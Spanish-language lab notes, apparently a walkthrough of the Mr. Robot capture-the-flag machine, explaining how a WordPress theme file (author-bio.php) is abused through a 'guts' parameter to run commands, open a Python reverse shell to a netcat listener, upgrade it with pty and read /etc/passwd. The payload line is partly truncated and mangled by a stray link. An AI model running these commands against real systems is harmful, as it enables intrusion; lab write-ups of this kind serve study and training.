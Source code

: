 http://[192.168.100.167/wp content/themes/twentyfifteen/author bio.php?guts=ls](http://192.168.100.167/wp-content/themes/twentyfifteen/author-bio.php?guts=ls) El parámetro ls nos lista los archivos en el directorio
![[zzzzzz/Mr.Robot/Pasted image 20230626174621.png]]

**nc -lvp 8080**

![[zzzzzz/Mr.Robot/Pasted image 20230626174647.png]]
http:/192.168.100.167/wp content/themes/twentyfifteen/author bio.php?guts=python -c 'import socke

EL comando que utiliza la herramienta "nc" (netcat) para escuchar en un puerto específico (en este caso el puerto 8080) en modo de escucha (con la opción "-l") y ver los datos recibidos (con la opción "-v"). Esta acción permite a un atacante recibir conexiones de red y ver la información que se envía a través de ese puerto.

[http:/192.168.100.167/wp content/themes/twentyfifteen/author bio.php?guts=](http://192.168.100.167/wp-content/themes/twentyfifteen/author-bio.php?guts=ls)python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect["192.168.100.168",8080](file:///C:/Program Files/RemNote/resources/app.asar/build/doc/HXs0Fev3YfWpb0q4i?aliasId=Al7loRvE0rAvYD4Yo);os.dup2(s.fileno()―Esta línea de código es una solicitud HTTP que busca ejecutar un código en el lenguaje Python en el servidor en la dirección IP 192.168.100.167 "maquina atacante" El código intenta crear un socket de red y conectarse a un host en la dirección IP "192.168.100.168" en el puerto 8080. Luego, utiliza la función "os.dup2" para duplicar la entrada y salida estándar al socket de red.

 La función os.dup2 en Python es una función del módulo os que se utiliza para duplicar un descriptor de archivo (como un socket de red) en un número determinado de descriptor de archivo (generalmente 0, 1 o 2, que representan la entrada, salida y error estándar, respectivamente). En este caso, se está utilizando os.dup2 para duplicar la entrada y salida estándar del sistema operativo (stdin, stdout y stderr) en el socket de red que se ha creado y conectado con s.connect(("192.168.100.168",8080)). De esta manera, cualquier entrada o salida que se realice en la entrada y salida estándar del sistema operativo se redirigirá al socket de red, lo que permite a un atacante realizar comandos en un sistema remoto a través de una conexión de red.

**Se creo la conexión y aplicando** **whoami** **notamos que nos encontramos con el usuario deamon en wp.**

![[zzzzzz/Mr.Robot/Pasted image 20230626174818.png]]

python -c 'import pty;pty.spawn("/bin/bash")'→Script de Python que importa el módulo pty y llama a su función "spawn" con "/bin/bash". La función "spawn" abre una terminal PTY (Pseudo-Terminal) y ejecuta el shell especificado (en este caso, "/bin/bash").

export TERM=xterm-256color

![[zzzzzz/Mr.Robot/Pasted image 20230626174840.png]]

La variable TERM indica al sistema operativo qué terminal emulada se está utilizando. Al establecer TERM en "xterm-256color", se está especificando que se está utilizando una terminal xterm con soporte de 256 colores. Esto puede ser útil para asegurarse de que la salida de los comandos de la terminal sea compatible con la terminal que se está utilizando
**Con los 2 comando anteriores obtendremos un shell totalmente funcional desde la terminal.**
cat /etc/passwd
![[zzzzzz/Mr.Robot/Pasted image 20230626174910.png]]
Este archivo almacena información básica sobre los usuarios en el sistema, como nombres de usuario, IDs de usuario y grupo, shell de inicio de sesión, directorios de inicio y valores de campo adicionales.
